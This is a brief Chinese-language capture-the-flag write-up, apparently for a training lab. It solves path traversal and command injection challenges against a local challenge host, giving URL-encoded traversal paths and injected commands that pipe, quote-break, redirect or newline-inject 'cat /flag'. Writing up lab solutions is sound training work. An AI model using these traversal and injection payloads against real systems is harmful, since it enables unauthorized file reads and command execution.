 # Web Security

## Path Traversal 1

- 根据路径遍历，考虑到请求`http://challenge.localhost/../../flag`，失败
- 需要进行url编码：`http://challenge.localhost/..%2F..%2Fflag`，得到flag

## Path Traversal 2

- 根据路径遍历，采用第一种方式`http://challenge.localhost/..%2F..%2Fflag`，发现被过滤
- 进入到fortunes中采用第一种方式，相当于以文件形式访问，`http://challenge.localhost/fortunes/..%2F..%2F..%2Fflag`，得到flag

## CMDi 1

- 执行`/flag | cat /flag`即可

## CMDi 2

- 执行`/flag | cat /flag`即可

## CMDi 3

- 绕过单引号，执行`/' | cat '/flag`即可

## CMDi 4

- 中间注入，直接执行`Asian | cat /flag | cat`即可

## CMDi 5

- 主页面没有输出，所以我们需要把运行结果重定向到文件中，执行`/flag | cat /flag > /challenge/output`即可，然后去`cat /challenge/output`即可获取

## CMDi 6

- 大部分能用到的字符都被过滤了，考虑用换行符结束上一个命令，换行符经过URL编码后是`%0A`，所以注入`%0A cat /flag`即可。
